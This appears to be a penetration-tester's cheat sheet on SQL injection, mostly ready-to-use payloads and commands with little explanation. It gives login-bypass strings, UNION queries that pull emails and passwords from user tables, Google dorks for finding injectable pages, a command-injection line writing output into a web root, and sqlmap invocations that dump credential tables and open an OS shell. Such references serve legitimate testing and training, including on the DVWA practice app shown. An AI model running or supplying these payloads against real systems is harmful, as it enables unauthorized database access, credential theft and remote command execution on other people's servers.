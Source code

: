# SQL Injection

**Check for SQLi by adding and single quote or the following:   
**

```
‘ or 1=1--<space>
```

```
http://www.target.com/index.php?val=100’
http://www.target.com/index.php?val=100’ or ‘1’=’1

Username: ' or 1=1--<space>
Password:
```

**Try to login as a specific user.  
**

```
Username: bob
Password: ' or (1=1 and username = 'bob')--<space>
```

**Database version  
**

```
Username: +convert(varchar,convert(int,@@version))+
```

### Google Dorks

inurl:index.php?id=  
inurl:gallery.php?id=  
inurl:article.php?id=  
inurl:pageid=



> SQL databases interpret the single quote character as the boundary between code and data. It assumes that  
> anything following a single quote is code that it needs to run and anything encapsulated by a quote is data.

```
Example: SELECT * FROM products WHERE price < '100' ORDER BY description;

' and 1=0/@@version;--
' and 1=0/user;--
' having 1'='1
' GROUPED BY productid having '1'='1
' GROUPED BY productid,name having '1'='1
```

MS-SQL server concatenates numbers, it does not add them. '10' + '0' would equal 100 not 10.

```
SELECT * FROM table1 WHERE condition1
union all

SELECT * FROM table2 WHERE condition2

OS - @@version
  Server instances - @@servername
    Databases
      Tables
        Columns

SELECT name FROM master..sysdatabases
```

```
http://target.com/bookservice/bookdetail.aspx?id=2 or 1 in (SELECT DB_NAME(0))—
http://target.com/article.aspx?article_id=0+UNION+SELECT+EMAIL,+USERID,+PASSWORD+FROM+USERS
Newsletter signup > Subscribe:  joe@gmail.com & ipconfig > C:\inetpub\wwwroot\Book\test.txt
```

**Use Burp to trap a request. Copy the request to /root/tmp.  
**

```
sqlmap -r /root/tmp
sqlmap -r /root/tmp -p <parameter> --current-user        Show the user the web server is using to talk to the db
sqlmap -r /root/tmp -p <parameter> -U <user> --passwords
sqlmap -r /root/tmp --dbs                                Search for all dbs
sqlmap -r /root/tmp -D <database> --tables               Show all tables in db
sqlmap -r /root/tmp -D <database> -T <table> --dump      Show all data in table
```

From: [http://niiconsulting.com/checkmate/2014/01/from-sql-injection-to-0wnage-using-sqlmap/](http://niiconsulting.com/checkmate/2014/01/from-sql-injection-to-0wnage-using-sqlmap/)

```
sqlmap.py --url=”http://target.com/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#”
--cookie="security=low; PHPSESSID=e8495b455c5ef26c415ab480425135ee"

sqlmap.py --url="http://target.com/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"
--cookie="security=low; PHPSESSID=e8495b455c5ef26c415ab480425135ee" --dbs

sqlmap.py --url="http://target.com/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"
--cookie="security=low; PHPSESSID=e8495b455c5ef26c415ab480425135ee" -D dvwa --tables

sqlmap.py --url="http://target.com/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"
--cookie="security=low; PHPSESSID=e8495b455c5ef26c415ab480425135ee" -D dvwa -T users --columns

sqlmap.py --url="http://target.com/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"
--cookie="security=low; PHPSESSID=e8495b455c5ef26c415ab480425135ee" -D dvwa -T users
-C user_id,user,password --dump

sqlmap.py --url="http://target.com/login.asp" --data="txtLoginID=shrikant&txtPassword=password&cmdSubmit=Login"
--os-shell
```



